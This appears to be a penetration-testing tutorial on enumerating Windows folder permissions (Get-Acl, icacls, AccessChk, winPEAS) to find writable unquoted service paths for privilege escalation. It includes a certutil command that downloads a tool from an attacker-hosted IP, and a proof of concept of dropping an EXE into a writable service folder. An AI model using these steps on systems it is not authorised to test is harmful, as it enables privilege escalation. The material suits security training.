### **Enumerating service permissions with Get-Acl (PowerShell)**

1.  `Get-Acl` is a built-in cmdlet in PowerShell. No additional modules are required.  
    [Microsoft documentation](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl?view=powershell-7.4)  
    
    

    **Note:** We can use the following command to enumerate folder permissions.

2.  Unlike `icacls`, `Get-Acl` does not explicitly list "Modify". Instead, it provides an *Access Mask Format*, where numbers represent permissions (e.g., Modify).  
    `Get-Acl -Path C:\ | Format-List`  
    
    
    
3.  For example, numerical value `-1610612736` represents Read and Execute.  
    `Get-Acl -Path "C:\Program Files" | Format-List`  
    
    

4.  In this example, `BUILTIN\Users` have `FullControl` on `C:\Program Files\Unquoted Path Service`.  
    `Get-Acl -Path "C:\Program Files\Unquoted Path Service" | Format-List`

    

### **Enumerating service permissions with icacls (CMD)**

1.  To verify permissions with `icacls`, review Microsoft’s [documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls).  
    
    
    
2.  Example for `C:\`: Administrators and SYSTEM have Full Control; Authenticated Users can create folders but not files.  
    `icacls C:\`

    
    
3.  Example for `C:\Program Files`: TrustedInstaller has Full Control; SYSTEM and Administrators have Modify/Full Control; Users have Read & Execute.  
    `icacls "C:\Program Files"`

    
    
4.  Example for `C:\Program Files\Unquoted Path Service`: Users, SYSTEM, and Administrators have Full Control (inherited).  
    `icacls "C:\Program Files\Unquoted Path Service"`

    
    
5.  Example for `C:\Program Files\Unquoted Path Service\Common Files`: Users have Read & Execute; SYSTEM/Administrators have inherited Full Control; CREATOR OWNER also has inherited Full Control.  
    `icacls "C:\Program Files\Unquoted Path Service\Common Files"`

    
    
6.  POC: Moving an EXE into `C:\`, `C:\Program Files`, or `C:\Program Files\Unquoted Path Service\Common Files` is blocked, but works in `C:\Program Files\Unquoted Path Service\`.  

    

### **Enumerating service permissions with AccessChk**

1.  Download the Sysinternals Suite if not already installed: [Microsoft site](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).  

    

    **Note:** Verify system architecture:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host `accesschk64.exe` with Python and transfer it:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/accesschk64.exe accesschk64.exe`

    
    
3.  Enumerate permissions on `C:\`. Output shows write access is restricted to creating subfolders (`FILE_ADD_SUBDIRECTORY`).  
    `.\accesschk64.exe -wvud "C:\" -accepteula`

    

4.  For `C:\Program Files`: SYSTEM and Administrators have extensive permissions; standard users cannot write.  
    `.\accesschk64.exe -wvud "C:\Program Files" -accepteula`

    

5.  For `C:\Program Files\Unquoted Path Service`: All users, including standard users, have Full Write permissions.  
    `.\accesschk64.exe -wvud "C:\Program Files\Unquoted Path Service" -accepteula`

    

### **Enumerating unquoted service paths with winPEAS**

1.  `winPEAS` can detect unquoted service paths in the “Service Information” section.  

    

2.  Scroll further to the “Application Information → Installed Applications” sub-section to check which directories in the unquoted path are writable.  

    

??? info "Note"

    If no writable directories are found in the unquoted service path, the service cannot be exploited.